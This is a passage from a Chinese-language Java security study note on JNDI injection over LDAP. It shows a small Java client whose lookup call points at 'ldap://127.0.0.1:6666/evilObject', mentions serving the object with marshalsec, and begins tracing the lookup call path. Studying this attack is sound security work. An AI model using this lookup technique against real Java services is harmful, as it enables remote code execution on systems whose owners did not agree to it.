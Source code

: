 #### 示例代码
 - JNDIClient

```java
package org.h3rmesk1t.jndi.LDAPAttack;

import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 7:03 上午
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        new InitialContext().lookup("ldap://127.0.0.1:6666/evilObject");
    }
}
```

![JNDI-LDAP](./Java安全学习-JNDI注入/17.png)

#### 过程分析
这里利用`marshalsec`起一个`LDAP`服务, 同样将断点下在`lookup`处. 之前的步骤和`RMI`一样, 这里直接分析后面不同的地方.

跟进`GenericURLContext#lookup`方法, 进一步调用`PartialCompositeContext#lookup`方法, 在`for`循环的条件中先调用`ComponentContext#p_lookup`方法.
